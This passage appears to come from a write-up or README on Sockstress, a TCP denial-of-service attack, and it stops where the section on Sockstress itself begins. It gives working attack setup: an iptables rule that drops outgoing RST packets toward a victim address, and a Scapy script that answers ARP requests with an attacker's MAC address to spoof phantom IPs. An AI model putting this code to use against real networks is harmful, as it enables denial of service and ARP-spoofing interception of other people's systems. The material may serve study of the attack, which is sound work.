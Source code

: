 Sockstress is a Denial of Service tool developed by Jack C. Louis
(Outpost 24) that is used to attack systems in the internet over TCP.
What is interesting about Sockstress is the fact it usually utilizes the
resources (RAM) of the victim’s systems in such a way that it causes
them to crash and renders them unable to shutdown in a normal way. The
victim would then have to do a hard reboot of the system to recover it.
Unfortunately the author of this attack died in a tragic fire in 2009
leaving many details about the attack unpublished. As such, the Denial
of Service mechanism of action is still unknown and experts are advising
to treat this as a typical DoS attack and block the responsible IP
address.

DoS Process
-----------

In order to perform a successful Sockstress attack the attacker would
have to firewall his source IP addresses in order to prevent his own OS
from interfering with his own attack, as there will be incoming packets
with a RST flag and the attacker’s kernel will reset the sockets. One of
the authors of Sockstress (Robert E. Lee) has documented a case of
accidentally DoSing one’s self by using this local firewall method and
thus an alternate method of attack vector protection is used.

    iptables -A OUTPUT -p TCP --tcp-flags rst rst -d <insert victim's ip address> -j DROP
<p align="center">Listing 2.1: iptables command for local firewall</p>
### FantaIP

This alternate method is implemented by a tool called FantaIP in the
source code created by the original creators of Sockstress. FantaIP
essentially creates spoofed IP addresses (“phantom” IP addresses, hence
the name fantaIP) and it does that by generating ARP replies when the
target sends ARP requests trying to find the spoofed addresses. There
were many failed attempts on building FantaIP for Ubuntu 18.04 as well
as many reported cases of individuals characterizing it unusable for
modern operating systems (FantaIP works on old versions of Slackware).
Therefore there was a need to write a tool that would implement the same
functionality and this simple Python script that utilizes Scapy does
that.

    #This code is a modified version of Sam Browne's arppoi.py tool 
    import sys
    from scapy.all import *

    def findARP(p):
      op = p.sprintf("%ARP.op%")
      if op == "who-has":
        pdst = p.sprintf("%ARP.pdst%")
        len = pdst.__len__()
        if len > 11:                       
          if  "192.168.1." in pdst and pdst != "192.168.1.1":
            print "first if detected"
            psrc = p.sprintf("%ARP.psrc%")
            print "ARP detected: ", op, " ", pdst, " tell ", psrc
            B = ARP()
            B.op = "is-at"
            B.pdst = psrc
            B.psrc = pdst
            B.hwsrc = "34:02:86:6f:2d:df"  # MAC Address of Attacker
            B.hwdst = "ff:ff:ff:ff:ff:ff"
            print "Sending ", B.summary()
            send(B)
    sniff(prn=findARP)
<p align="center">Listing 2.2: Python script for ARP spoofing arp_spoofer.py</p>
### Sockstress

